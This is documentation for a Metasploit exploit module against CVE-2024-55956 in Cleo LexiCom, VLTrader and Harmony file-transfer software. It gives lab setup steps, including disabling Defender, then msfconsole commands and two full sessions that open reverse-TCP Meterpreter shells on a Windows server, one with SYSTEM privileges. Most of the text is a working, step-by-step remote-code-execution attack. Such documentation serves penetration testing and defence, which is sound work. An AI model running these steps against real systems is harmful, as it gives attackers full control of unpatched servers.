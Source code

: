 ## Vulnerable Application
This module exploits an unauthenticated file write vulnerability in Cleo LexiCom, VLTrader, and Harmony
versions 5.8.0.23 and below.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/geR0H8dgrE/cve-2024-55956/rapid7-analysis).

## Testing
You must install a vulnerable copy of Cleo LexiCom, VLTrader, or Harmony. The vendor install guide for Cleo LexiCom
can be found [here](https://cleo-infoeng.s3.us-east-2.amazonaws.com/PDF/LexiCom/5.8/LexiCom_58_InstallGuide_072222.pdf).
During testing of this module Cleo LexiCom was used. On Windows you will download the `install.exe` file and on Linux
you will download the `install.bin` file. Running the installer to complete the installation. 

By default, the HTTP service will listen on TCP port 5080, so you will need to allow inbound connection to this port
in your firewall.

If testing the default Windows payloads, you should disable Defender.

## Verification Steps

1. Start msfconsole
2. `use exploit/multi/http/cleo_rce_cve_2024_55956`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set target 0`
7. `set PAYLOAD java/meterpreter/reverse_tcp`
8. `check`
9. `exploit`

## Scenarios

### Java

```
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set target 0
target => 1
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[*] Sending stage (58073 bytes) to 192.168.86.50
[+] Deleted temp/iidqizro
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:59172) at 2024-12-17 13:40:58 +0000
[!] This exploit may require manual cleanup of 'temp/kagdkplw' on the target

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```

### Windows Command

```
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set target 1
target => 1
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set payload cmd/windows/http/x64/meterpreter_reverse_tcp
payload => cmd/windows/http/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      APpIYmSCo        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[+] Deleted temp/hzbcsche
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:59175) at 2024-12-17 13:42:09 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```
